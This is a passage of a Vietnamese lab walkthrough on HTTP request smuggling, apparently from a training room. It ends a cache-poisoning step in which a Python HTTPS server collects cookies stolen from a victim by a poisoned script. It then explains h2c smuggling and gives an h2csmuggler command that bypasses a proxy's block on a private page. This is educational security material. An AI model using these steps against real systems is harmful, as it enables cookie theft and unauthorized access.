# Wrap the socket with the context
httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

httpd.serve_forever()
```

*   Chạy script: `python3 https.py`.
*   Chờ đợi: Trong lab, hệ thống mô phỏng một nạn nhân tự động truy cập trang chủ mỗi 20 giây. Khi nạn nhân truy cập, Proxy sẽ trả về file `text.js` đã bị đầu độc. File này thực thi mã độc, gửi cookie (chứa Flag) về server HTTPS của bạn. Nếu sau 30 giây không nhận được, bộ nhớ đệm đã bị xóa, bạn cần lặp lại Bước 2.



## **8. HTTP/2 Request Tunneling: h2c Smuggling**

**1. Cơ chế đàm phán giao thức (HTTP Version Negotiation)**
*   Máy chủ web thường hỗ trợ nhiều phiên bản HTTP trên cùng một cổng để tương thích với các trình duyệt cũ.
*   Có hai cách để nâng cấp lên kết nối HTTP/2:
    *   **h2:** Chạy HTTP/2 qua kênh mã hóa TLS (sử dụng cơ chế ALPN của TLS).
    *   **h2c:** Chạy HTTP/2 qua kênh văn bản rõ (cleartext). Do không có TLS, client sẽ gửi một request HTTP/1.1 kèm theo các header đặc biệt để yêu cầu máy chủ nâng cấp lên HTTP/2.
*   Mặc dù `h2c` hiện bị coi là lỗi thời và không được các trình duyệt hiện đại hỗ trợ, nhiều máy chủ vẫn giữ lại tính năng này để tương thích ngược, vô tình tạo ra lỗ hổng để khai thác.

**2. Quá trình nâng cấp h2c (h2c Upgrades)**
*   Để nâng cấp, Client gửi một request HTTP/1.1 bình thường nhưng đính kèm các header: `Upgrade: h2c` và `HTTP2-Settings`.
*   Nếu máy chủ đồng ý, nó sẽ trả về mã trạng thái `101 Switching Protocols`. Từ thời điểm đó, kết nối chuyển hoàn toàn sang HTTP/2.



**3. Lỗ hổng h2c Smuggling hoạt động như thế nào?**
*   Khi đi qua một Frontend Proxy, nếu Proxy được cấu hình sai, nó sẽ không tự xử lý yêu cầu nâng cấp mà chuyển tiếp thẳng (forward) các header `Upgrade` này xuống Backend Server.
*   Backend Server nhận được yêu cầu, đồng ý nâng cấp và thiết lập đường hầm HTTP/2.
*   **Điểm mù của Proxy:** Lúc này, Proxy nghĩ rằng giao thức đã được chuyển đổi sang một định dạng khác (không còn là HTTP nữa), nên nó trở thành một "đường ống mù". Nó chỉ đẩy dữ liệu qua lại mà không thèm kiểm tra nội dung (không kiểm duyệt ACL nữa).
*   Kẻ tấn công lợi dụng đường hầm HTTP/2 nội bộ (vốn có tính chất duy trì kết nối - persistent) để gửi trực tiếp các request độc hại thẳng xuống Backend.
*   *Mẹo (Trick):* Nếu Proxy có khả năng nhận diện h2c, ta có thể thử gửi yêu cầu nâng cấp h2c qua kênh TLS. Vì h2c sinh ra chỉ dành cho kênh cleartext, yêu cầu ngược đời này có thể khiến Proxy bối rối và tự động chuyển tiếp nó xuống Backend thay vì trực tiếp can thiệp.

**4. Bypassing Frontend Restrictions bằng công cụ h2csmuggler**
*   **Mục tiêu:** Ứng dụng web cho phép truy cập trang chủ `/` nhưng cấu hình Proxy chặn truy cập trang `/private` (trả về lỗi `403 Forbidden`).
*   Thay vì cấu hình thủ công phức tạp, ta sử dụng công cụ tự động `h2csmuggler` (do BishopFox phát triển) để thực thi cuộc tấn công.
*   **Lệnh thực thi trên AttackBox:**
    ```bash
    python3 h2csmuggler.py -x https://10.49.161.27:8200/ https://10.49.161.27:8200/private
    ```
    *(Giải thích lệnh: Công cụ sẽ mượn đường dẫn được phép là `/` để thực hiện đàm phán nâng cấp h2c. Sau khi đường hầm thiết lập xong, nó mới bơm request cấm `/private` qua đường hầm để vượt mặt Proxy)*.
*   Nếu lệnh thất bại ở lần đầu, hãy thử chạy lại một vài lần. Kết quả trả về sẽ hiển thị nội dung của trang `/private` (chứa Flag cần tìm).

